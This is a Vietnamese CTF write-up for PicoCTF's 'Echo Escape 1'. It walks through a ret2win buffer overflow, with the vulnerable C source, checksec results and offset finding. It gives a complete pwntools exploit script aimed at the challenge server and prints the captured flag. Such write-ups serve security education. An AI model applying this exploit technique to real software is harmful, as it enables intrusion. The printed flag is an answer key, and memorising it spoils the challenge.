





# PicoCTF - Echo Escape 1

## Thông tin bài tập
- **Tên bài**: Echo Escape 1
- **Dạng bài**: Binary Exploitation / Pwn
- **Lỗ hổng**: Buffer Overflow (ret2win)

## Phân tích mã nguồn & Kiểm tra bảo mật

Dựa vào mã nguồn được cung cấp:

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void win() {
    FILE *fp = fopen("flag.txt", "rb");
    if (!fp) {
        perror("[!] Failed to open flag.txt");
        return;
    }

    char buffer[128];
    size_t n = fread(buffer, 1, sizeof(buffer), fp);
    fwrite(buffer, 1, n, stdout);
    fflush(stdout);
    printf("\n");
    fclose(fp);
}

int main() {
    char buf[32];

    printf("Welcome to the secure echo service!\n");
    printf("Please enter your name: ");
    fflush(stdout);

    read(0, buf, 128);

    printf("Hello, %s\n", buf);
    printf("Thank you for using our service.\n");

    return 0;
}
```

### Lỗ hổng
Hàm `main` khai báo một mảng `buf` có kích thước 32 bytes trên stack. Tuy nhiên, khi nhận dữ liệu đầu vào, chương trình sử dụng hàm `read(0, buf, 128);` cho phép đọc tới 128 bytes. Việc này dẫn đến lỗi **Buffer Overflow** (tràn bộ đệm), cho phép chúng ta ghi đè dữ liệu lên các vùng nhớ khác trên stack, đặc biệt là địa chỉ trả về (return address - RIP/EIP) của hàm `main`.

Ngoài ra, chương trình cung cấp sẵn một hàm `win()` có chức năng đọc và in ra cờ (flag). Vì vậy mục tiêu của chúng ta là ghi đè địa chỉ trả về của hàm `main` thành địa chỉ của hàm `win()`. Kỹ thuật này được gọi là **ret2win**.

### Kiểm tra bằng checksec
- **Canary**: No (Không có cơ chế bảo vệ ngăn tràn bộ đệm).
- **NX**: Yes (Ngăn thực thi mã trực tiếp trên stack).
- **PIE**: No (Địa chỉ của các hàm không bị thay đổi, ta có thể dùng địa chỉ cố định của hàm `win()`).

## Quá trình khai thác

### Bước 1: Tìm offset (Khoảng cách từ buf đến return address)
Sử dụng công cụ `gef`, chúng ta tạo một chuỗi pattern, nhập vào chương trình và xem địa chỉ bị crash ở lệnh `ret`. Dựa vào pattern, ta tìm được offset là **40 bytes**.

### Bước 2: Tìm địa chỉ hàm win()
Từ file thực thi (chưa bị PIE bảo vệ), ta xác định được địa chỉ của hàm `win` là `0x401256`.

### Bước 3: Xây dựng Script khai thác
Sử dụng thư viện `pwntools` trong Python, ta có script hoàn chỉnh như sau:

```python
from pwn import *

# Khởi tạo kết nối tới server của PicoCTF
# io = process('./echo_escape_1') # Chạy ở local
io = remote('mysterious-sea.picoctf.net', 63519)

# Cấu hình offset và địa chỉ hàm win
offset = 40
win_addr = 0x401256

# Lắp ráp Payload
# b'A' * 40: 40 bytes rác để điền đầy khoảng trống đến return address
# p64(win_addr): Địa chỉ hàm win() định dạng little-endian 64-bit
payload = b'A' * offset + p64(win_addr)

# Giao tiếp với Server
io.recvuntil(b"Please enter your name: ")
print("[+] Đang gửi payload...")
io.sendline(payload)

# Nhận kết quả và lấy flag
io.interactive()
```

## Kết quả
Khi thực thi đoạn script trên, payload sẽ ghi đè thành công địa chỉ trả về và gọi hàm `win()`, máy chủ trả về cờ:

`picoCTF{3ch0_s3rv1c3_br34k5_e859590c}`

---
### Hình ảnh quá trình giải:




